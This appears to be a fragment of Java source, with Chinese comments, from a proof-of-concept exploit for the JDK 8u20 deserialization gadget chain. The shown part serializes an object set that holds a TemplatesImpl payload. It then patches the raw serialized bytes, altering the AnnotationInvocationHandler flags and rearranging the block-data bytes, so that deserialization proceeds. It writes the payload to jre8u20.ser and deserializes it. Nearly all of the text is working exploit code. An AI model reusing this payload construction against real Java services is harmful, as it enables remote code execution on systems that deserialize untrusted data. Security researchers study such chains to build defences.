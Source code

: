 ```java
        map.put("f5a5a608", templates);

        //序列化
        ByteArrayOutputStream baous = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baous);

        oos.writeObject(set);
        oos.close();

        byte[] bytes = baous.toByteArray();


        //将 sun.reflect.annotation.nAnnotationInvocationHandler 的 classDescFlags 由 SC_SERIALIZABLE 修改为 SC_SERIALIZABLE | SC_WRITE_METHOD
        //         //这一步其实不是通过理论推算出来的，是通过debug 以及查看 pwntester的 poc 发现需要这么改
        //         //原因是如果不设置 SC_WRITE_METHOD 标志的话 defaultDataEd = true，导致 BeanContextSupport -> deserialize(ois, bcmListeners = new ArrayList(1))
        // -> count = ois.readInt(); 报错，无法完成整个反序列化流程
        // 没有 SC_WRITE_METHOD 标记，认为这个反序列流到此就结束了
        // 标记： 7375 6e2e 7265 666c 6563 --> sun.reflect...
        for(int i = 0; i < bytes.length; i++){
            if(bytes[i] == 115 && bytes[i+1] == 117 && bytes[i+2] == 110 && bytes[i+3] == 46 &&
                    bytes[i + 4] == 114 && bytes[i+5] == 101 && bytes[i+6] == 102 && bytes[i+7] == 108 ){
                System.out.println("[+] Modify sun.reflect.annotation.AnnotationInvocationHandler -> classDescFlags from SC_SERIALIZABLE to " +
                        "SC_SERIALIZABLE | SC_WRITE_METHOD");
                i = i + 58;
                bytes[i] = 3;
                break;
            }
        }

        // 运行到BeanContextSupport.deserialize()中此时ois.readInt()时面对的序列化数据可能是个TC_OBJECT或者TC_NULL，为了让攻击顺利，必须让ois.readInt()面对的序列化数据是TC_BLOCKDATA包裹的整型变量0
        // 0x70, 0x77, 0x04, 0x00, 0x00, 0x00, 0x00, 0x78 ->
        // 0x77, 0x04, 0x00, 0x00, 0x00, 0x00, 0x70, 0x78
        for(int i = 0; i < bytes.length; i++){
            if(bytes[i] == 0x70 && bytes[i+1] == 0x77 && bytes[i+2] == 0x04 && bytes[i+3] == 0x00 && bytes[i + 4] == 0x00 && bytes[i+5] == 0x00 && bytes[i+6] == 0x00 && bytes[i+7] == 0x78){
                System.out.println("[+] Change 0x70, 0x77, 0x04, 0x00, 0x00, 0x00, 0x00, 0x78 -> 0x77, 0x04, 0x00, 0x00, 0x00, 0x00, 0x70, 0x78");
                bytes[i] = 0x77;
                bytes[i+1] = 0x04;
                bytes[i+2] = 0x00;
                bytes[i+6] = 0x70;
                break;
            }
        }

        // 序列化
        FileOutputStream fous = new FileOutputStream("jre8u20.ser");
        fous.write(bytes);

        // 反序列化
        FileInputStream fis = new FileInputStream("jre8u20.ser");
        ObjectInputStream ois = new ObjectInputStream(fis);
        ois.readObject();
        ois.close();
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
```